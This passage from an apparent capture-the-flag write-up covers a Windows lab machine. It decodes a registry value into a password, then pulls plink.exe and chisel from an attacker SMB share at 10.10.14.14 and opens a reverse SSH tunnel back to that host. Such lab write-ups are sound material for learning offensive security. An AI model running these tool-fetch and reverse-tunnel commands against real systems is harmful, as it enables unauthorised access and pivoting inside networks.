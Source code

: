     HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Parameters
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Enum



If I look at that as ASCII, I get a string:



    root@kali# echo 4800370033004200700055005900320055007100390055002D005900750067007900740035004600590055006200590030002D0055003800370074003800370000000000 | xxd -r -p
    H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87



### Tunnel

I originally created tunnels with `plink.exe` , but I'm so much more a
fan of [chisel](https://github.com/jpillora/chisel) right now (check out
[this post](/tunneling-with-chisel-and-ssf-update.md) for
more details). I'll show both.

#### plink.exe

First, I'll upload plink with `smbserver` on my kali box:



    C:\Users\Nelson\AppData\Local\Temp>net use \\10.10.14.14\share
    net use \\10.10.14.14\share
    The command completed successfully.


    C:\Users\Nelson\AppData\Local\Temp>copy \\10.10.14.14\share\plink.exe .
    copy \\10.10.14.14\share\plink.exe .
            1 file(s) copied.



I'll ssh back to my host as the dummy user, and create a reverse tunnel
(for details on SSH tunneling, see [this
post](/intro-to-ssh-tunneling.md)):



    C:\Users\Nelson\AppData\Local\Temp>plink -R 2020:localhost:2020 dummy@10.10.14.14
    plink -R 2020:localhost:2020 dummy@10.10.14.14
    dummy@10.10.14.14's password: **********************



Now I have a tunnel listening on my kali box on port 2020 that will
forward to bighead on 2020.

#### chisel

I'll grab the [latest 32-bit
release](https://github.com/jpillora/chisel/releases) and upload it
using SMB:



    C:\Windows\System32\spool\drivers\color>copy \\10.10.14.14\share\chisel_windows_386.exe \Windows\System32\spool\drivers\color\c.exe
